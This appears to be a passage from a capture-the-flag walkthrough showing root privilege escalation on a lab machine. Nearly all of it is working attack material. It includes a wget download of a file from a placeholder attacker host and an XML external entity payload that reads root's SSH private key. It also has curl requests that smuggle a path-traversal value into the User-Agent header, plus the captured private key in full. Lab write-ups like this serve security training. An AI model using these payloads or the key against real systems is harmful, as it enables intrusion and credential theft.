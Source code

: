 Attacker:

	python3 -m http.server 80

Victim:

	wget <attacker_ip>/greg.jpg

###### Craft a malicious xml file to grab root's SSH private key

Victim:

	vi privesc_creds.xml

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../home/woodenk/greg.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

	cp greg.jpg privesc_creds.xml /home/woodenk

###### Trigger the exploit

Attacker:

	curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/greg.jpg"

	curl http://10.10.11.170:8080/export.xml?author=woodenk | /dev/null

Victim:

After a few moments...

	cat /home/woodenk/privesc_creds.xml

```text
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../home/woodenk/greg.jpg</uri>
    <privesc>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
</privesc>
    <views>3</views>
  </image>
  <totalviews>3</totalviews>
</credits>
```
